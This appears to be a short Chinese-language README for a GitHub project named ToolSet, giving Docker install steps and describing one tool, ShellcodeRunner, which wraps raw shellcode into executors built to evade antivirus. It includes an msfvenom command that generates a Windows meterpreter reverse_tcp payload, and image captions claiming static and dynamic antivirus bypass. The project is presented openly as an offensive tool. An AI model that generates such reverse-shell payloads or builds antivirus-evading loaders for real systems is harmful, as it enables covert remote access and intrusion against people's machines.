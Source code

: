 # ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)